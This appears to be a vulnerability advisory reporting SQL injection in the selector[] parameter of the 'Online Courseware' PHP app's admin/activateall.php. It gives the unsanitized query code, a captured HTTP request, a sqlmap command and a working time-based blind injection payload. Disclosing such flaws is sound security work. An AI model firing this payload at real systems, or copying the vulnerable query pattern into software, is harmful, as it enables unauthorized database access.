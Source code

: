 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware - SQL Injection on (admin/activateall.php selector[] parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
admin/activateall.php 

On this page, selector[] parameter is vulnerable to SQL Injection Attack 
### Source code(pcci/admin/activateall.php):
```
$edittable=$_POST['selector'];
if($bnm=='deactivate')
{
	$result = mysqli_query($conn,"UPDATE question SET status='deactivate' where id='$edittable[$i]'");
}
```
### Proof of vulnerability(Verify using the sqlmap tool after logining ):
#### Request:
```
POST /onlinecourseware/pcci/admin/activateall.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 127
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sm0bljsdrcd3r9gqelkfs2sf73
Origin: http://localhost
Referer: http://localhost/onlinecourseware/pcci/admin/allquestion.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

bnm=activate&selector%5B%5D=1
```
#### -> sqlmap -r 1.txt(above request package) --batch
### Output:
```
---
Parameter: selector[] (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: bnm=activate&selector[]=1' AND (SELECT 8299 FROM (SELECT(SLEEP(5)))rumf)-- ZnIb
---
```
